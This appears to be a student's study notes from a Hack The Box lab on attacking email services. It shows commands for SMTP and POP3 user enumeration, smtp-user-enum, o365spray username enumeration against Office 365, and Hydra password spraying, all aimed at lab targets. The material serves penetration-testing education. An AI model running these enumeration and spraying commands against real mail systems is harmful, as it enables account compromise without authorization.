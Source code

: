 - **`EXPN`** is similar to `VRFY`**, except that when used with a distribution list, it will list all users on that list.**
	- `telnet 10.10.110.20 25`
	- `EXPN john`
	- `EXPN support-team`
		- ![[Pasted image 20250712064808.png]]

- `RCPT TO` **identifies the recipient of the email messag**e. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients:
	- `MAIL FROM:test@htb.com`
		- `Type message body here`
		- `250 2.1.0 test@htb.com... Sender ok`
	- `RCPT TO:kate`
		- `550 5.1.1 kate... User unknown`
	- `RCPT TO:john`
		- `250 2.1.5 john... Recipient ok`

- We can also use the **`POP3` protocol to enumerate users depending on the service implementation**
- For example, we can use the **command `USER` followed by the username, and if the server responds `OK`.**:
	- `telnet 10.10.110.20 110`
	- `USER julio`
		- `-ERR`
	- `USER john`
		- `+OK`

- To automate our enumeration process, we can **use a tool named [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)**.
- We can specify the **enumeration mode with the argument `-M`** followed by `VRFY`, `EXPN`, or `RCPT`, and the argument `-U` with a file containing the list of users we want to enumerate:
	- `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`

# Cloud Enumeration
---
- Let's use Office 365 as an example and explore how we can enumerate usernames in this cloud platform.
- **[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365)** developed by [ZDH](https://twitter.com/0xzdh). 
- This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365

- O365 Spray:
	- `python3 o365spray.py --validate --domain msplaintext.xyz`
		- `[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz`
- Now, we can attempt to identify usernames.
	- `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`
	- ![[Pasted image 20250712065240.png]]

# Password Attacks
---
- We can use `Hydra` to perform a password spray or brute force against email services such as `SMTP`, `POP3`, or `IMAP4`.
	- `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`
- If cloud services support SMTP, POP3, or IMAP4 protocols, **we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked.**
